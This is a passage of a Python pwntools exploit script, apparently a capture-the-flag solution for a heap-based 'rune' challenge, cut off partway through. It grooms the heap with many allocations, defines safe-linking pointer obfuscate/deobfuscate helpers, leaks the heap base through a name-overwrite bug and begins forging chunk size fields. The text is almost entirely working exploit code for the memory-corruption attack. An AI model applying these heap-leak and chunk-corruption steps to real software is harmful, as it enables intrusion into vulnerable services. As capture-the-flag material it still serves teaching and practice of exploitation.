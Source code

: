 ```py
    io.recvuntil(b'Rune contents:\n\n')
    return io.recvline()

def edit(name,newname,data):
    io.recvuntil(b'Action:')
    io.sendline(b'3')
    io.recvuntil(b'Rune name:')
    io.send(name)
    io.recvuntil(b'New name:')
    io.send(newname)
    io.recvuntil(b'Rune contents:')
    io.send(data)

def deobfuscate(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val
def obfuscate(pos,ptr):
    return (pos>>12) ^ ptr

#Chunks to create unsorted bin and heap leak
create(b'1',0x10,b'B'*0x10)
create(b'2',0x10,b'C'*0x10)
create(b'4',0x10,b'E'*0x10)
create(b'3',0x58,b'D'*0x58)

#These chunks are to make sure we can free into unsorted bin
create(b'5',0x58,b'G'*0x58)
create(b'6',0x58,b'G'*0x58)
create(b'7',0x58,b'G'*0x58)
create(b'8',0x58,b'G'*0x58)
create(b'9',0x58,b'G'*0x58)
create(b'A',0x58,b'G'*0x58)
create(b'B',0x58,b'G'*0x58)
create(b'C',0x48,b'G'*0x18)
create(b'D',0x10,b'H'*0x10)

#These are to create stack leak
create(b'E',0x10,b'H'*0x10)
create(b'F',0x10,b'H'*0x10)
create(b'G',0x10,b'H'*0x10)

#These are to allocate inside libc
create(b'K',0x20,b'I'*0x20)
create(b'H',0x20,b'I'*0x20)
create(b'I',0x20,b'I'*0x20)
create(b'J',0x20,b'I'*0x20)

#First get heap leak
delete(b'4')
edit(b'1',b'3\x003',b'A'*0x38)
leak = u64(show_rune(b'2').split(b'A'*0x18)[1][:-1].ljust(8,b'\x00'))
heap_base = leak << 12


log.info(f"Heap base: {heap_base:#x}")

#Restore the first chunk to original name. This is just so we can reuse it
edit(b'3\x003',b'1',b'a')
edit(b'1',b'3\x003',b'A'*0x10+p64(0x21) + b'A'*0x18 + p64(0x21))
```